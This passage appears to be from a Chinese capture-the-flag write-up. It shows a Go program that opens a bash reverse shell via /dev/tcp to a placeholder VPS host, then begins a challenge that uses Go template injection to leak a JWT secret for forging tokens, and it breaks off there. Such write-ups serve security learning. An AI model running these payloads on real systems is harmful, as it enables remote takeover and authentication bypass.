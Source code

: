 ```go
package main

import (
    "bytes"
    "fmt"
    "log"
    "os/exec"
)

var cmd = \`
bash -c 'exec bash -i &>/dev/tcp/VPS\_IP/PORT <&1'
\`
func main() {
    cmd := exec.Command("sh","-c",cmd)
    var stdout, stderr bytes.Buffer
    cmd.Stdout = &stdout
    cmd.Stderr = &stderr
    err := cmd.Run()
    outStr, errStr := string(stdout.Bytes()), string(stderr.Bytes())
    fmt.Printf("out:\\n%s\\nerr:\\n%s\\n", outStr, errStr)
    if err != nil {
        log.Fatalf("cmd.Run() failed with %s\\n", err)
    }
}
```

上传完成后访问users路由即可获得Shell：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-b0c9ab273488b29d9c8ce3fa3f081e72a92cb69f.png)

fxxkgo
------

go ssti + jwt伪造

首先注册一个用户：{{.}}

/register  
POST: id={{.}}&amp;pw=123

然后auth一下获得token：

/auth  
POST: id={{.}}&amp;pw=123

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-903c7090efab5d685c076bf0a9cd7570cceb4e1c.png)

把token添加到X-Token头里去POST请求根路由触发ssti：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-ce980af7c512a985162f5b3ad409c9ee7090a009.png)

就可以获得jwt的密钥：fasdf972u1041xu90zm10Av

然后去jwt.io伪造一下jwt：
